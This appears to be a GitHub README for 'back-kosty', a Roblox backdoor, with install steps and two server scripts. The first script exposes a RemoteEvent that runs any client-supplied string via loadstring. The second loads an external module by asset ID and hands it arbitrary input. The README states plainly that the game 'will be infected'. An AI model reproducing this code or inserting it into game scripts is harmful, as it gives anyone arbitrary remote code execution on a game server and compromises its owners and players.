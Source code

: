 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

and

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

after that your game will be infected by back-kosty
